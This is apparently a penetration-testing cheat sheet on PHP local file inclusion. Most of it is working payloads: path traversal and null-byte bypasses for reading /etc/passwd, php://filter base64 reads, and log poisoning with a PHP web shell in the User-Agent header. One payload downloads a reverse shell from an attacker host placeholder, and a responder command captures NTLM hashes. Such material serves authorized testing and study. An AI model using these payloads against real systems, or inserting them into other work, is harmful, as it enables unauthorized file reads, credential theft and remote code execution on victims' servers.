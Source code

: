 ## Local file inclusion (LFI)

Basically occurs when a php web page take an other page to display in parameter.

***Example :***  
https://example.com/index.php?page=foo.php


#### Vulnerabilities
Vulnerabilities can be found using some parameter modifications

https://example.com/index.php?page=/etc/passwd
https://example.com/index.php?page=
https://example.com/index.php?page=./



### Filters

- Absolute path bypass
https://example.com/index.php?page=../../../../etc/passwd

- Extension bypass
https://example.com/index.php?page=../../../../etc/passwd%00

- Base64 bypass
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=convert.base64-encode/resource=./../../etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=./../../etc/passwd  


# Tricks to bypass

```
bypass "../" with "..././"
bypass "../" with "....//"
```

## LFI2RCE / Log Poisonning

If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that file

## Remote file inclusion from log poisonning (RCE)
```php
User-Agent: <?php file_put_contents('/tmp/reverse_shell.php', file_get_contents('http://ATTAQUER_IP:ATTACKER_PORT/reverse_shell.php'))?>
```
Then go to /rev.php to start the reverse shell
In order to work, the php have to be in cleartext when it's read by the webpage  
e.g. if it appears in b64, nothing will work

# Remote file Inclusion

## Tools
- responder

### Responder

The `responder` utilisty can catch requests from many fake created servers such as `HTTP`  
This can sometimes leads to NTLM leaks

***Usage :***  
To start responder, you must select an interface 
```bash
responder -I INTERFACE_NAME
```
